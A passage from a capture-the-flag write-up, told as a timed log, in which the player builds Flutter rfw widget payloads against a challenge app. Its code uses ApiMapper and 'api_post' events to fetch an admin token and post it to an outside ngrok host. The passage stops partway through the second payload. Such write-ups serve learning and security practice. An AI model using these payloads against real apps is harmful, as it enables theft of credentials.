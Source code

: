 My teammate found a way to trigger it:

``` js
Row( 
        children: [
          ApiMapper(
            url: "@example.ngrok.io/json",
            jsonKey: "a",
            dataKey: "a",
            onLoaded: event "api_post" {
              path: "@example.ngrok.io/test",
              body: "bodytest"
            }
          )
        ]
      )
```

I actually tried the same method myself, but for some reason it didn't work.

Although we could send POST requests, we couldn't get a response, so it didn't seem to be useful. I got stuck here for a while.

I felt like we must have missed some important details, otherwise we wouldn't have been stuck here for so long. So I went back and played the app again to see if there was anything we missed.

### 22:56(5h 16m) Back on track, starting to implement exploit

After playing through again, I found that there was a GET API `/api/token` that could retrieve token data, and the data retrieved by ApiMapper would be stored in `data`. Therefore, we can first use ApiMapper to retrieve the data, and then use `event "api_post"` to send the retrieved data to obtain the admin token.

The concept is not difficult, but the implementation is difficult. I spent some time sharing this idea with my teammates, thinking that it would be faster if we wrote it together.

During the process of trying, I found that if the onloaded of ApiMapper is directly connected to `event "api_post"`, it seems that the data cannot be obtained, so I need to find another way. At this time, I thought of the `switch` that appeared in the poll, and I should be able to use that trick.

By the way, the way I learned rfw was to directly look at the code. In fact, the comments and tests were written in detail, and there was much more information than the documentation: https://github.com/flutter/packages/blob/main/packages/rfw/lib/src/dart/text.dart#L479

### 23:19(5h 39m) Failed exploit

I wrote a widget that I thought would succeed no matter how I looked at it:

``` js
widget root { loaded: 1 } = Container(
  child: Column(
    children: [
      Row( 
        children: [
          Text(
            text: "test"
          ),
          switch state.loaded {
            2: ApiMapper(
              url: "@example.ngrok.io/json",
              jsonKey: "a",
              dataKey: "b",
              onLoaded: event "api_post" {
                path: "@example.ngrok.io/send",
                body: {
                  "token": data.new_token
                }
```